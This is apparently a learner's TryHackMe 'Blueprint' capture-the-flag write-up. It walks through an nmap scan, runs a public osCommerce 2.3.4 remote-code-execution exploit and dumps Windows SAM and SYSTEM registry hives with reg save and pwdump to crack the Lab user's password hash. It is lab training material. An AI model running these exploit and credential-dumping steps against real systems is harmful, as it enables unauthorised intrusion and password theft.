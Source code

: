 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on the Intrusion Kill Chain by Lockheed Martin:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objectve

---
### Environment
#### Operating System
latest kali-VM
#### Tools
N/A

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted
 root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
  PORT      STATE    SERVICE
  80/tcp    open     http
  135/tcp   open     msrpc
  139/tcp   open     netbios-ssn
  443/tcp   open     https
  445/tcp   open     microsoft-ds
  512/tcp   filtered exec
  1152/tcp  filtered winpoplanmess
  1875/tcp  filtered westell-stats
  3306/tcp  open     mysql
  4662/tcp  filtered edonkey
  7741/tcp  filtered scriptview
  8080/tcp  open     http-proxy
  9010/tcp  filtered sdr
  20005/tcp filtered btx
  26214/tcp filtered unknown
  27000/tcp filtered flexlm0
  49152/tcp open     unknown
  49153/tcp open     unknown
  49154/tcp open     unknown
  49158/tcp open     unknown
  49159/tcp open     unknown
  49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
	http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system

DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The file-system was Windows and exploring userfiles I happend to come accross my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad-searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likley going to be located in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included; printing it's contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stubled upon a page which explained how this data could be exported from it's registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
<missing command> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website I had found earlier I had to find a tool that was going to assit me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on recconaissance and exploitaion through finding online resources/code. Once I was in, a majority of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?
#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I definitely would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documenation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.

